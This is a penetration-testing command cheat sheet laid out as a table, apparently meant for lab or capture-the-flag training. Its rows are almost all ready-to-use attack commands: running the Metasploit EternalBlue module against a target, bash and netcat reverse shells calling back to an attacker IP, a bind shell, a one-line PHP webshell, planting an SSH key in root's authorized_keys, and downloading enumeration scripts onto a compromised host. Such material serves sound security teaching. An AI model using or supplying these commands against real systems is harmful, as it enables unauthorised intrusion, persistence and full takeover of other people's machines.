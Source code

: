 | `msfconsole` | MSF: Start the Metasploit Framework |
| `search exploit eternalblue` | MSF: Search for public exploits in MSF |
| `use exploit/windows/smb/ms17_010_psexec` | MSF: Start using an MSF module |
| `show options` | MSF: Show required options for an MSF module |
| `set RHOSTS 10.10.10.40` | MSF: Set a value for an MSF module option |
| `check` | MSF: Test if the target server is vulnerable |
| `exploit` | MSF: Run the exploit on the target server is vulnerable |
| **Using Shells** |
| `nc -lvnp 1234` | Start a `nc` listener on a local port |
| `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'` | Send a reverse shell from the remote server |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.10.10 1234 >/tmp/f` | Another command to send a reverse shell from the remote server |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/bash -i 2>&1\|nc -lvp 1234 >/tmp/f` | Start a bind shell on the remote server |
| `nc 10.10.10.1 1234` | Connect to a bind shell started on the remote server |
| `python -c 'import pty; pty.spawn("/bin/bash")'` | Upgrade shell TTY (1) |
| `ctrl+z` then `stty raw -echo` then `fg` then `enter` twice | Upgrade shell TTY (2) |
| `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php` | Create a webshell php file |
| `curl http://SERVER_IP:PORT/shell.php?cmd=id` | Execute a command on an uploaded webshell |
| **Privilege Escalation** |
| `./linpeas.sh` | Run `linpeas` script to enumerate remote server |
| `sudo -l` | List available `sudo` privileges |
| `sudo -u user /bin/echo Hello World!` | Run a command with `sudo` |
| `sudo su -` | Switch to root user (if we have access to `sudo su`) |
| `sudo su user -` | Switch to a user (if we have access to `sudo su`) |
| `ssh-keygen -f key` | Create a new SSH key |
| `echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys` | Add the generated public key to the user |
| `ssh root@10.10.10.10 -i key` | SSH to the server with the generated private key |
| **Transferring Files** |
| `python3 -m http.server 8000` | Start a local webserver |
| `wget http://10.10.14.1:8000/linpeas.sh` | Download a file on the remote server from our local machine |
| `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh` | Download a file on the remote server from our local machine |
| `scp linenum.sh user@remotehost:/tmp/linenum.sh` | Transfer a file to the remote server with `scp` (requires SSH access) |
| `base64 shell -w 0` | Convert a file to `base64` |
| `echo f0VMR...SNIO...InmDwU \| base64 -d > shell` | Convert a file from `base64` back to its orig |
| `md5sum shell` | Check the file's `md5sum` to ensure it converted correctly |